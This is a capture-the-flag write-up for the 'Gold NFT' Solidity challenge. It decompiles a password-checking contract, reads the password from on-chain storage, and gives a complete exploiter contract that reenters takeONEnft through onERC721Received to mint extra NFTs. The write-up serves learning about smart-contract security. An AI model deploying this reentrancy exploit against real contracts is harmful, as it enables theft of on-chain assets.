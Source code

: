 # Gold NFT

## Challenge

We receive the contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {ERC721} from "lib/openzeppelin-contracts/contracts/token/ERC721/ERC721.sol";

interface IPassManager {
    function read(bytes32) external returns (bool);
}

contract GoldNFT is ERC721("GoldNFT", "GoldNFT") {
    uint lastTokenId;
    bool minted;

    function takeONEnft(bytes32 password) external {
        require(
            IPassManager(0xe43029d90B47Dd47611BAd91f24F87Bc9a03AEC2).read(
                password
            ),
            "wrong pass"
        );

        if (!minted) {
            lastTokenId++;
            _safeMint(msg.sender, lastTokenId);
            minted = true;
        } else revert("already minted");
    }
}
```

and our goal is to mint more than 10 NFTs.

## Solution

First we want to find out what the PassManager really does. So i took a look at the bytecode and decompile it using Paleoramix (the one included in etherscan). Then we get back:

```solidity
# Palkeoramix decompiler. 

def read(bytes32 _currency) payable: 
  require calldata.size - 4 >=ΓÇ▓ 32
  require _currency == _currency
  return bool(stor[_currency])

#
#  Regular functions
#

def _fallback() payable: # default function
  revert

def set(bytes32 _param1, bool _param2) payable: 
  require calldata.size - 4 >=ΓÇ▓ 64
  require _param1 == _param1
  require _param2 == _param2
  require caller == 3
  stor[_param1] = _param2
```

I then tried to clean up the code so it's better understandable.

```solidity
function read(bytes32 _currency) payable
{
  return bool(storage[_currency]);
}
  
function set(bytes32 _param1, bool _param2) payable
{
  require(caller == owner);
  storage[_param1] = _param2;
}
```

So the read functions checks if a certain storage slot has been set to something else then 0. So i looked at the contract creation in etherscan. There we can see that the storage slot at 0x23ee4bc3b6ce4736bb2c0004c972ddcbe5c9795964cdd6351dadba79a295f5fe was set to 1. So this is probably the password.

Then i wrote a attack script that exploits the reentrancy attack in _safeMint. The case is that with _safeMint we have to implement the on onERC721Received from which we can reenter. Then we just reenter until we got our 10 NFTs

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.0;

import "./GoldNFT.sol";

contract exploiter {
    uint256 claims;
    GoldNFT NFT_contract;
    bytes32 password = 0x23ee4bc3b6ce4736bb2c0004c972ddcbe5c9795964cdd6351dadba79a295f5fe;
    uint256 target_claims = 10;
    address owner;
    uint256[] public tokenIds;

    constructor(address target_addr)
    {
        owner = msg.sender;
        claims = 0; 
        NFT_contract = GoldNFT(target_addr);
    }

    function attack() payable public
    {
        NFT_contract.takeONEnft(password);

        for (uint256 i = 0; i < target_claims; i++)
        {
            NFT_contract.transferFrom(address(this), owner, tokenIds[i]);
        }
    }

    function onERC721Received(address operator, address from, uint256 tokenId, bytes calldata data) external returns (bytes4)
    {
        tokenIds.push(tokenId);
        if (claims < target_claims)
        {
            claims += 1;
            NFT_contract.takeONEnft(password);
        }

        return this.onERC721Received.selector;
    }
}
```

The POC can be found in this folder. 